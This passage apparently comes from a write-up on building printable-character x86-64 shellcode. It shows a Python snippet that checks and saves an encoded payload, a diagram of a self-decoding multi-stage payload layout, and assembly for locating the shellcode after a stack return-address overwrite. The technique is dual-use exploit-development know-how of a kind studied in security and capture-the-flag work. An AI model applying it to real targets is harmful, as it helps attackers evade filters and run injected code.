 ```python

assert is_ok_str(payload)
print len(payload)
assert len(payload) < 4096

print payload
open('shellcode.txt', 'wb').write(payload)
```

It bootstraps itself by writing a "decryption" loop (stage2) that decodes the multiply-encoded stage3.

Layout of payload (sick ascii art):
```
   /--->printable write4s to write stage2 /-> gets overwritten with stage2
   |                 v                    |              v
/--+--->printable write4s to write stage2 |   gets overwritten with stage3
|  |                 v                    |
|  |    printable write4s to write stage2 |
|  |                 v                    |
|  | /--load rdi to offset of jump        |
|  | |               v                    |
|  \-+--write4 jump instruction           |  
|    |               v                    |
| /--+--set rsi parameter stage2          |
| |  |               v                    |
\-+--+--set rdi parameter for stage2      |
  |  |               v                    |
  |  \->to be filled in by write4 jmp ----/
  |
  \---->encoded stage3
```

Aside: it's not really important that `rdx` holds our shellcode. We can grab a pointer easily.
For example, suppose that we entered our shellcode by overwriting a return address on the stack.
Then, we could simply do:

```
pop rax ; allocate down to not overwrite return pointer
push rsp ; zero rsi
pop r9
pop r8 ;
push rsi
xor rsi, [r9]
push rsi
pop rax ; now set rax to 0x10
xor eax, 0x20202020
xor eax, 0x20202030
push rsp
pop r9
pop r8
push rax ; r9 now points to rax
sub sp, [r9] ; decrement sp without overwriting (pushing)
pop rdx ; ptr to return value (shellcode) now in rdx
```
